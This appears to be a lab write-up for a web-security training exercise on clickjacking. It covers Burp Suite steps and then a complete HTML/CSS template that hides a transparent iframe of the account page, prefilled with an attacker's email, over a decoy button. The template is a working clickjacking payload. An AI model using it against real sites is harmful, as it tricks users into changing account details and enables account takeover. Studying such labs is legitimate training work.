 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

```
<style>

   iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }   
    
</style>

<div> Test me </div>

<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Make the following adjustments to the template:

- Replace `YOUR-LAB-ID` with your unique lab ID so that the URL points to the target website's user account page, which contains the "Update email" form.
  
- Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).

- Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 400px and 80px respectively).

Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.



    
